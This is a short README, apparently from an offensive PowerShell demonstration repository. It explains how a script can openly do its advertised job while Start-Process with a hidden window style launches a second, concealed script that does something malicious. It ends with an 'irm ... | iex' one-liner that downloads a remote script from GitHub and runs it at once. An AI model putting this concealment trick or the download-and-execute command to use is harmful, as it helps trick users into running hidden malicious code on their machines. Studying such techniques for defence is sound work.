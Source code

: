 This method uses the -WindowStyle option on Start-Process to run a second script completely hidden and detatched from the first one. The first script can do what is advertised, while the second script does something malicious.

If you want to see an example in action, you can run the included script, **after** looking at it to see what it does

```PowerShell
irm https://raw.githubusercontent.com/starchyunderscore/offensive-ps/main/method-1/run.ps1 | iex
```
